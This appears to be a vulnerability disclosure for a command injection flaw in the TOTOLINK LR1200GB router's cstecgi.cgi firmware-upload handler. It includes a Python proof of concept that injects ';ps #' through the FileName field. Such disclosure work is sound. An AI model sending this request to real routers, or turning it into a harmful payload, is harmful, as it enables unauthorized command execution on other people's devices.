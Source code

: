 # TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `UploadFirmwareFile` handler function of  `cstecgi.cgi`. The value of the `FileName` parameter will be spliced ​​into the `mv %s %s` and be excuted by `doSystem` function, which allows an attacker to excute any command.

![Vulnerability](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = {
    "FileName":";ps #",
    "topicurl":"UploadFirmwareFile",
    "token":"00000000000000000000000000000000"
}

requests.request("POST", url, data=payload)
```
![postman](postman.png)

